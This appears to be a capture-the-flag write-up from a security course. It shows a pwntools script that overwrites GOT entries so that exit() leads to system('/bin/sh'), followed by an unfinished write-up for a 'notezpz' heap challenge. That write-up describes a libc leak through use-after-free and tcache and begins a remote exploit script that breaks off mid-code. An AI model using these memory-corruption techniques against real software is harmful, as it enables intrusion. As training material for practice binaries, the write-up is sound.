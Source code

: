 ```python

print_banner = 0x080486dc
banner       = 0x0804b060
puts         = 0x0804b02c
_exit        = 0x0804b014

# Overwrite puts() with system(), banner with 'bin/sh', and exit() with print_banner()
# Therefore when calling exit(), it will invoke puts(banner) (which is system("/bin/sh"))
_create()

_write_memory(p32(_exit), p32(print_banner))
_write_memory(p32(banner), b"/bin/sh\x00")
_write_memory(p32(puts), p32(system))

_ask("99", False)

p.interactive()
```


notezpz
==========================================================
General overview:
----------------------------------------------------------
1. I wasn't able to finish this in time, but I believe that it would follow a similar method to the previous one.
2. I found how to leak the <main_arena> libc function through changing the size of a buffer before it was freed, and then filling up the tcache. From here the backwards pointer pointed to <main_arena+56>.
3. I leaked the backwards pointer by first leaking the address of one of the freed nodes with a use-after free (ask would write the location of the next pointer in a free node)
4. After this I found the offsets of "/bin/sh\x00" and system() from the libc database. So I needed to store these in the buffer used for invoking ask_question()
5. Finally I needed to write these functions into the correct place in the heap buffer, and invoke ask_question(), however I ran out of time.

Flag:
----------------------------------------------------------
    FLAG{}

Script used:
----------------------------------------------------------

```python
    #!/usr/bin/env python2

from pwn import *

global p
global elf

####################################
# HELPER FUNCTIONS FOR THE PROGRAM #
def _start():
    prog  = "./bin/notezpz"
    ip   = "plsdonthaq.me"
    port = 7003

    if args.REMOTE:
        p = remote(ip, port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog,  
                    """
```